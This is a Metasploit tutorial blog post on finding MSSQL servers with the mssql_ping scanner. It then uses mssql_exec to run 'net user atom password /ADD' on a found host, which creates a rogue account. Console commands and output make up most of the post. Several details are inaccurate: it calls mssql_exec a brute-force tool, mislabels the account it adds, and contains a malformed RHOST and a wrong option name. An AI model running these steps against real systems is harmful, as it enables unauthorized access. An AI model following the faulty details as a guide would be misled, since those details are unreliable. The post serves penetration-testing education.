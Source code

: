 ```yaml
---
draft: false
title: MSSQL Scanning with MSF
linkTitle: MSSQL Scanning
weight: 110
translationKey: mssql-scanning-with-msf
date: 2017-05-16T12:52:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework provides an ability to search for MSSQL installations on other IP addresses in the network you are on.
url: /mssql-scanning-with-msf/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

One of the possibilities that Metasploit Framework provides to the user is that you can search for MSSQL installations on other IP addresses in the network you are on. For this, a trace search is performed with UDP scanning.

When MSSQL is first installed, it listens on port 1433 by default. It may be set to listen on randomly selected ports rather than port 1433. In this case, port 1434 may be asked which port the listening is done on.

In the example below, modules containing the phrase `mssql` are first searched.

```bash
msf > search mssql

Matching Modules
**================**

   Name                                                      Disclosure Date  Rank       Description
   ----                                                      ---------------  ----       -----------
   auxiliary/admin/mssql/mssql_enum                                           normal     Microsoft SQL Server Configuration Enumerator
   auxiliary/admin/mssql/mssql_enum_domain_accounts                           normal     Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli                      normal     Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_enum_sql_logins                                normal     Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration
   auxiliary/admin/mssql/mssql_escalate_dbowner                               normal     Microsoft SQL Server Escalate Db_Owner
   auxiliary/admin/mssql/mssql_escalate_dbowner_sqli                          normal     Microsoft SQL Server SQLi Escalate Db_Owner
   auxiliary/admin/mssql/mssql_escalate_execute_as                            normal     Microsoft SQL Server Escalate EXECUTE AS
   auxiliary/admin/mssql/mssql_escalate_execute_as_sqli                       normal     Microsoft SQL Server SQLi Escalate Execute AS
   auxiliary/admin/mssql/mssql_exec                                           normal     Microsoft SQL Server xp_cmdshell Command Execution
   auxiliary/admin/mssql/mssql_findandsampledata                              normal     Microsoft SQL Server Find and Sample Data
   auxiliary/admin/mssql/mssql_idf                                            normal     Microsoft SQL Server Interesting Data Finder
   auxiliary/admin/mssql/mssql_ntlm_stealer                                   normal     Microsoft SQL Server NTLM Stealer
   auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                              normal     Microsoft SQL Server SQLi NTLM Stealer
   auxiliary/admin/mssql/mssql_sql                                            normal     Microsoft SQL Server Generic Query
   auxiliary/admin/mssql/mssql_sql_file                                       normal     Microsoft SQL Server Generic Query from File
   auxiliary/analyze/jtr_mssql_fast                                           normal     John the Ripper MS SQL Password Cracker (Fast Mode)
   auxiliary/gather/lansweeper_collector                                      normal     Lansweeper Credential Collector
   auxiliary/scanner/mssql/mssql_hashdump                                     normal     MSSQL Password Hashdump
   auxiliary/scanner/mssql/mssql_login                                        normal     MSSQL Login Utility
   auxiliary/scanner/mssql/mssql_ping                                         normal     MSSQL Ping Utility
   auxiliary/scanner/mssql/mssql_schemadump                                   normal     MSSQL Schema Dump
   auxiliary/server/capture/mssql                                             normal     Authentication Capture: MSSQL
   exploit/windows/iis/msadc                                 1998-07-17       excellent  MS99-025 Microsoft IIS MDAC msadcs.dll RDS Arbitrary Remote Command Execution
   exploit/windows/mssql/lyris_listmanager_weak_pass         2005-12-08       excellent  Lyris ListManager MSDE Weak sa Password
   exploit/windows/mssql/ms02_039_slammer                    2002-07-24       good       MS02-039 Microsoft SQL Server Resolution Overflow
   exploit/windows/mssql/ms02_056_hello                      2002-08-05       good       MS02-056 Microsoft SQL Server Hello Overflow
   exploit/windows/mssql/ms09_004_sp_replwritetovarbin       2008-12-09       good       MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption
   exploit/windows/mssql/ms09_004_sp_replwritetovarbin_sqli  2008-12-09       excellent  MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption via SQL Injection
   exploit/windows/mssql/mssql_clr_payload                   1999-01-01       excellent  Microsoft SQL Server Clr Stored Procedure Payload Execution
   exploit/windows/mssql/mssql_linkcrawler                   2000-01-01       great      Microsoft SQL Server Database Link Crawling Command Execution
   exploit/windows/mssql/mssql_payload                       2000-05-30       excellent  Microsoft SQL Server Payload Execution
   exploit/windows/mssql/mssql_payload_sqli                  2000-05-30       excellent  Microsoft SQL Server Payload Execution via SQL Injection
   post/windows/gather/credentials/mssql_local_hashdump                       normal     Windows Gather Local SQL Server Hash Dump
   post/windows/manage/mssql_local_auth_bypass                                normal     Windows Manage Local Microsoft SQL Server Authorization Bypass
```

We will use the module named `auxiliary/scanner/mssql/mssql_ping` from the listed modules. In the example below, MSSQL scanning is performed on the IP address range `10.211.55.1/24`.

```bash
msf > use auxiliary/scanner/mssql/mssql_ping
msf auxiliary(mssql_ping) > show options

Module options (auxiliary/scanner/mssql/mssql_ping):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 PASSWORD no The password for the specified username
 RHOSTS yes The target address range or CIDR identifier
 TDSENCRYPTION false yes Use TLS/SSL for TDS data "Force Encryption"
 THREADS 1 yes The number of concurrent threads
 USERNAME sa no The username to authenticate as
 USE_WINDOWS_AUTHENT false yes Use windows authentification (requires DOMAIN option set)

msf auxiliary(mssql_ping) > set RHOSTS 10.211.55.1/24
RHOSTS => 10.211.55.1/24
msf auxiliary(mssql_ping) > exploit

> SQL Server information for **10.211.55.128:
> tcp = 1433
> np = SSHACKTHISBOX-0pipesqlquery
> Version = 8.00.194
> InstanceName = MSSQLSERVER
> IsClustered = No
> ServerName = SSHACKTHISBOX-0
> Auxiliary module execution completed
```

As can be seen in the result, MSSQL service is running on IP address `10.211.55.128` and Port number 1433. From this point on, **brute-force** attempts can be made using the `mssql_exec` module. Alternatively, medusa or THC-Hydra can be used.

```bash
msf auxiliary(mssql_login) > use auxiliary/admin/mssql/mssql_exec
msf auxiliary(mssql_exec) > show options

Module options (auxiliary/admin/mssql/mssql_exec):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 CMD cmd.exe /c echo OWNED > C:\owned.exe no Command to execute
 PASSWORD no The password for the specified username
 RHOST yes The target address
 RPORT 1433 yes The target port (TCP)
 TDSENCRYPTION false yes Use TLS/SSL for TDS data "Force Encryption"
 USERNAME sa no The username to authenticate as
 USE_WINDOWS_AUTHENT false yes Use windows authentification (requires DOMAIN option set)
msf auxiliary(mssql_exec) > set RHOST 10.211. 55.128
RHOST => 10.211. 55.128
msf auxiliary(mssql_exec) > set MSSQL_PASS password
MSSQL_PASS => password
msf auxiliary(mssql_exec) > set CMD net user atom password /ADD
cmd => net user atom password /ADD
msf auxiliary(mssql_exec) > exploit
```

In the example above, if the exploit is successful, a user is added to the MSSQL database by sending the `net user atom password /ADD` command. Note that this command is entered into the CMD variable with `set CMD net user atom password /ADD`.
